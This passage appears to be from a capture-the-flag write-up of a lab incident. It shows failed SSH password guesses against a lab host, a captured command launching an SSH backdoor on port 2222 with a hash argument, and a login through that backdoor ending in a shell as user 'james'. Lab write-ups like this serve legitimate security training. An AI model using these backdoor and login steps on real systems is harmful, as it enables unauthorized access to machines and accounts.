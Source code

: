 ssh szymex@10.10.75.252

szymex@10.10.75.252's password:

Permission denied, please try again.

ssh muirland@10.10.75.252

muirland@10.10.75.252's password:

Permission denied, please try again.

ssh paradox@10.10.75.252

paradox@10.10.75.252's password:

Permission denied, please try again.

#### **Attempt to ssh into target host on TCP/2222 (Initial Access: Valid Accounts: Local Accounts (ID: T1078.003))** <a href="#rm2xo46354cv" id="rm2xo46354cv"></a>

* Wireshark tcp.stream eq 3 filter shows ssh-backdoor configured to listen on TCP/2222

james@overpass-production:\~/ssh-backdoor$ ./backdoor -a 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed

<9d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed

SSH - 2020/07/21 20:36:56 Started SSH backdoor on 0.0.0.0:2222

* Nmap scan shows target host listening on TCP/2222

ssh TARGET\_IP -p 2222

Unable to negotiate with 10.10.248.130 port 2222: no matching host key type found. Their offer: ssh-rsa

**Question Hint** Note: If you get an error saying "Unable to negotiate with port 22: no matching how to key type", this is because OpenSSH have deprecated ssh-rsa. Add "-oHostKeyAlgorithms=+ssh-rsa" to your command to connect.

ssh TARGET\_IP -p 2222 -o HostKeyAlgorithms=+ssh-rsa

The authenticity of host '\[10.10.248.130]:2222 (\[10.10.248.130]:2222)' can't be established.

RSA key fingerprint is SHA256:z0OyQNW5sa3rr6mR7yDMo1avzRRPcapaYwOxjttuZ58.

This key is not known by any other names.

Are you sure you want to continue connecting (yes/no/\[fingerprint])? yes

Warning: Permanently added '\[10.10.248.130]:2222' (RSA) to the list of known hosts.

kali@10.10.248.130's password:

To run a command as administrator (user "root"), use "sudo \<command>".

See "man sudo\_root" for details.

whoami

james
